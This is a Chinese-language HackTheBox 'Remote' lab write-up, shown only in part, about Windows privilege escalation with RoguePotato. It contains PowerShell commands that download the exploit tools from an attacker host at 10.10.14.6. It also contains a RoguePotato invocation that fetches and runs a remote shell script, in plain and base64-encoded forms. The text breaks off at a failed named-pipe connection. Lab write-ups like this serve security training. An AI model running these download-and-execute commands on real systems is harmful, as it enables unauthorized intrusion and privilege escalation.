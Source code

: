 使用的环境是：HackTheBox-Remote

开始

![image-20211102205146787](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b4cf90e552120caed27251d1c5747189939a1c62.png)

powershell下载文件

```php
powershell.exe (new-object net.webclient).downloadfile('http://10.10.14.6:8888/RoguePotato.exe', 'C:\tmp\RoguePotato.exe')

powershell.exe (new-object net.webclient).downloadfile('http://10.10.14.6:8888/RogueOxidResolver.exe', 'C:\tmp\RogueOxidResolver.exe')
```

![image-20211103170610456](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8e47422eb041d23021d69442eaf94086ecfbcd3b.png)

- `-r 10.10.14.6` - 这是识别我的主机的必需选项；
- `-l 9999` - 本地监听的端口；
- `-e xxx` - 运行命令

执行命令

```php
.\RoguePotato.exe -r 10.10.14.6 -c "{B91D5831-B1BD-4608-8198-D72E155020F7}" -e "powershell -c iex( iwr http://10.10.14.6:8888/shell.ps1 -UseBasicParsing )" -l 9999
```

无法直接使用powershell命令直接执行上传shell提权  
需要转换为base64值

```php
echo "IEX( IWR http://10.10.14.6:8888/shell1.ps1 -UseBasicParsing)" | iconv -t utf-16le|base64 -w 0
```

```php
SQBFAFgAKAAgAEkAVwBSACAAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADQALgA2ADoAOAA4ADgAOAAvAHMAaABlAGwAbAAxAC4AcABzADEAIAAtAFUAcwBlAEIAYQBzAGkAYwBQAGEAcgBzAGkAbgBnACkACgA=
```

```php
.\RoguePotato.exe -r 10.10.14.6 -e "cmd.exe /c powershell -EncodedCommand SQBFAFgAKAAgAEkAVwBSACAAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADQALgA2ADoAOAA4ADgAOAAvAHMAaABlAGwAbAAxAC4AcABzADEAIAAtAFUAcwBlAEIAYQBzAGkAYwBQAGEAcgBzAGkAbgBnACkACgA=" -l 9999
```

它提示我

```php
[-] Named pipe didn't received any connect request
```

![image-20211103180317059](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d73c9b2664d8a14f2c9f8e48258886c98a4504f2.png)

它可能和CLSID有关系

进行查阅

<http://ohpe.it/juicy-potato/CLSID/>
